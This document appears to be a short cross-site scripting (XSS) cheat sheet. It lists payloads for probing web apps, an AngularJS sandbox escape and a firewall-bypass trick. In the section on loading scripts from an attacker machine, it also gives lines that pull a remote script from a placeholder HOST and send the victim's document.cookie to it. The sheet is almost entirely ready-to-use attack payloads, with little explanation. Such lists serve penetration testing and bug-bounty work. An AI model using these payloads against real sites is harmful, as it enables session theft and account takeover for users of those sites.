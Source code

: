 ## Identifying XSS Endpoints

Use the following payloads to identify XSS endpoints in a web application:

```html
<script>alert(document.domain);</script>
<script>alert("xss")</script>
<img src=1 onerror=alert(document.domain)>
<><img src=1 onerror=alert(document.domain)>
\"-alert(document.domain)}//
'-alert(document.domain)-'
”><svg onload=alert(document.domain)>
"><script>alert(document.domain)</script>
<script>alert(document.domain.concat("\n").concat(window.origin))</script>
"onmouseover="alert(document.domain) <!-- for when angle brackets are HTML-encoded -->
```

## Loading Scripts from Attacker Machine

Use these payloads to load scripts from an attacker's machine:

```html
<script src=//HOST/SCRIPT></script>
<svg onload=fetch('//HOST/?cookie=' + document.cookie)>
```

## Embedding Images

Use this payload to embed an image:

```html
<img src="https://www.bugcrowd.com/wp-content/uploads/2019/04/bugcrowd-logo.svg">
```

*Note: Originally, the URL encoded HTML payload must be inserted into the database function, which in this case is looking up the name of a user.*

## AngularJS (ng-app)

Use this payload for AngularJS-based XSS:

```html
{{$on.constructor('alert(1)')()}}
```

[Source](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-angularjs-expression)

## Web Application Firewall (WAF) Bypass

When you need to throw a function to the global exception handler:

```html
onerror=alert;throw 1
```
